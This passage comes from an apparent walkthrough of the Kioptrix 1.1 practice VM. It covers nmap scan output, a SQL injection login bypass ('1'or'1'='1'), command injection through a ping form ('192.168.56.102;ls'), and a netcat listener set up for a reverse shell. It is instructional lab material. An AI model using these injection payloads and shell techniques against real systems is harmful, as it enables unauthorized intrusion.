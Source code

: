 ```bash
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:52:82:CF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: 3h59m58s

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.56.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.73 seconds
```

Since the target machine had an Apache web server running on port 80 and 443, I gave that a look and found the following web page:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_loginform.png)

The first thing that came to mind when seeing a login form like this one was SQL injection. Entering 1'or'1'='1 in both fields showed this partcular form's susceptibility to SQL injection as I was given access to an application that pings other machines:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_console.png)

I decided to check how well this application sanitizes user input in the field where an IP address is supposed to be entered. Instead of just entering an IP address to ping, I added something extra: `192.168.56.102;ls`. The `;` indicated that a new, unrelated command will follow (in this case I chose `ls`). This resulted in the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix11_ls.png)

This means the application is vulnerable to command injection and I can execute commands directly on the target machine through this application. I then tried using this point of entry to give myself a reverse shell on the target machine:

```bash
kali@kali:~$ nc -nlvp 7777
```
